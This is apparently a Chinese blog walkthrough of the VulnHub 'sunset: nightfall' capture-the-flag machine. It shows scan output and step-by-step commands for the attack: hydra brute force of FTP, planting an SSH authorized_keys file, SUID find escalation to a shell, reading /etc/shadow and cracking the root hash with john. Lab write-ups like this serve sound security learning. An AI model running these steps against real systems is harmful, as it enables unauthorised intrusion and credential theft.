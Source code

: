 ```yaml
---
title: nightfall渗透测试
date: 2019-09-10 19:03:41
tags:
 - hack
 - security
---
```


# 背景知识
1. [什么是SAMBA](https://www.ctolib.com/docs/sfile/vbird-linux-server-3e/114.html)
2. [enum4linux](https://hackfun.org/2016/10/23/Kali-Linux%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86%E4%B9%8Benum4linux/)
3. [uid之ruid，euid，suid](https://cysecguide.blogspot.com/2016/10/difference-among-ruid-euid-suid.html)
    - https://brucechen7.github.io/2014/11/14/2014-11-14-euid-ruid-euid/
    - https://unix.stackexchange.com/questions/191940/difference-between-owner-root-and-ruid-euid
    - https://www.jianshu.com/p/23f2f2be2b29
    - https://www.cnblogs.com/limingluzhu/p/5702486.html
    - https://www.anquanke.com/post/id/86979 (推荐)
4. [/etc/passwd和/etc/shadow的区别](http://www.chinastor.com/os/linux/092034W22016.html)

# 攻击步骤
1. 发现主机
```
# netdiscover
Currently scanning: 172.26.118.0/16   |   Screen View: Unique Hosts                                                                                                                                                                                                           
 244 Captured ARP Req/Rep packets, from 27 hosts.   Total size: 14100                                                                          
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.188.14.179   08:00:27:5a:52:6b    108    6480  PCS Systemtechnik GmbH                                                                      
 10.188.144.178  14:ab:c5:9f:29:5f     18    1008  Intel Corporate                                                                             
 10.188.88.79    30:3a:64:f6:b4:40     21    1176  Intel Corporate                                                                       
```
2. 扫描端口, 发现可用ftp服务
```
# nmap -A xx.xxx.xx.x
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-10 15:36 EDT
Nmap scan report for 10.188.14.179
Host is up (0.00037s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         pyftpdlib 1.5.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.188.14.179:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:25:e1:4f:41:c6:0f:be:31:21:7b:27:e3:af:49:a9 (RSA)
|   256 38:15:c9:72:9b:e0:24:68:7b:24:4b:ae:40:46:43:16 (ECDSA)
|_  256 9b:50:3b:2c:48:93:e1:a6:9d:b4:99:ec:60:fb:b6:46 (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 12
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, Support41Auth, Speaks41ProtocolOld, FoundRows, DontAllowDatabaseTableColumn, SupportsTransactions, SupportsLoadDataLocal, Speaks41ProtocolNew, LongColumnFlag, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, InteractiveClient, IgnoreSigpipes, SupportsCompression, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: *eBUf$|gmnay^K<,f<;S
|_  Auth Plugin Name: mysql_native_password
MAC Address: 08:00:27:5A:52:6B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: NIGHTFALL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m58s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: NIGHTFALL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: nightfall
|   NetBIOS computer name: NIGHTFALL\x00
|   Domain name: nightfall
|   FQDN: nightfall.nightfall
|_  System time: 2019-09-10T15:36:37-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-10T19:36:37
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.37 ms 10.188.14.179

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.43 seconds
```
3. 发掘系统的信息
```
enum4linux xx.xx.xx.x
```
4. 暴力破解ftp密码
```
hydra -l matt -P /usr/share/wordlists/rockyou.txt xx.xx.xx.xx ftp -e nsr
```
5. 破解得到用户`matt`的密码为`cheese`, 用其登录ftp
6. 创建`~/.ssh`文件夹
```
ftp> mkdir .ssh
```
6. 本地创建ssh的key并将`id_rsa.pub`复制一份重命名为`authorized_keys`
```
ssh-keygen
cp ~/.ssh/id_rsa.pub ~/authorized_keys
```
8. nightfall上使用ftp上传本地的`~/.ssh/id_rsa.pub`到nightfall的新创建的`~/.ssh`文件夹下
```
ftp>cd .ssh
ftp>put authorized_keys
```
9. 直接登录matt账号
```
ssh matt@xx.xx.xxx.x
```
10. 查找具有SUID权限的文件
```
find / -perm -u=s -type f 2>/dev/null
```
11. 运行类find命令提权
```
cd /scripts
./find . -exec /bin/sh -p \; -quit
```
12. nightfall家目录下创建.ssh文件夹, 类似上传`authorized_keys`文件, 然后ssh登录nightfall账号
13. 读取shadow文件中的加密密码
```
sudo -u root cat /etc/shadow
```
14. 将root的**加密密码**复制到本地`pwd.txt`文件并使用john the ripper来破解密码
```
john pwd.txt
```
15. 使用找到的密码登录root破解完成

参考链接
1. [nightfall VM download](https://www.vulnhub.com/entry/sunset-nightfall,355/)
1. https://www.hackingarticles.in/sunset-nightfall-vulnhub-walkthrough/

some other notes
```
nmap -sP -n -oX results.txt 10.188.1.1/16
grep -Eo 'addr=".*?" addrtype="ipv4"' results.txt | awk -F '"' '{print $2}' > ips.txt
nmap -sS -O -A -oX details.txt -iL ips.txt
```